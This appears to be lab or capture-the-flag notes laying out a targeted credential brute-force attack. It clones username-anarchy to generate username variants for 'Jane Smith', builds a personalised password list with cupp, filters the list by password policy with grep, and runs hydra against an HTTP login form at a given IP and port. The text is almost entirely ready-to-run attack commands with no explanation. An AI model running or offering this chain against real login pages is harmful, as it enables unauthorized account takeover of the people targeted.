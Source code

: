 ___

```bash
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy Jane Smith > jane_smith_usernames.txt
```

```bash
cupp -i
```

Filter that password list to match that policy
```bash
grep -E '^.{6,}$' jane.txt | grep -E '[A-Z]' | grep -E '[a-z]' | grep -E '[0-9]' | grep -E '([!@#$%^&*].*){2,}' > jane-filtered.txt
```


```bash
hydra -L username-anarchy/jane_smith_usernames.txt -P jane-filtered.txt 94.237.56.137 -s 33347 -f  
http-post-form "/:username=^USER^&password=^PASS^:Invalid credentials"
```

